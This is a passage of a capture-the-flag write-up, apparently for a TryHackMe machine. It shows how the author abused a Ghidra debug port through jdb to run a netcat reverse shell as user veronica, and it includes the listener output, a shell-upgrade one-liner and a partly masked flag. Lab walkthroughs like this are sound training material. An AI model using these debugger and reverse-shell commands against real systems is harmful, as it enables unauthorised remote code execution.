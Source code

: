 Looking around the machine, there appears to only be one user aside from `www-data`, `veronica`.

Now comes the fun part - port 18002. It appears to be part of the Ghidra Debug Mode. Looking for a way to exploit found:

```
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
print new java.lang.Runtime().exec("nc 10.9.1.116 1337 -e /bin/sh")
```

Let's try those instructions, hopefully we'll have a shell as `veronica`. Remember to set up a listener too!

```
www-data@ubuntu:/home/veronica$ jdb -attach 127.0.0.1:18001
jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> classpath
base directory: /home/veronica
classpath: [/home/veronica/ghidra_9.0/support/../Ghidra/Framework/Utility/lib/Utility.jar]
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0

Log4j2-TF-4-Scheduled-1[1]print new java.lang.Runtime().exec("nc 10.9.1.116 1337 -e /bin/sh")
 new java.lang.Runtime().exec("nc 10.9.1.116 1337 -e /bin/sh") = "Process[pid=17842, exitValue="not exited"]"
```

It worked!

Now for the flags.

```
$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.1.116] from (UNKNOWN) [10.10.21.46] 44712
id
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Upgrade the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'` and continue.

```
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{EB0CxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxFB67D34B37EBD3}
```
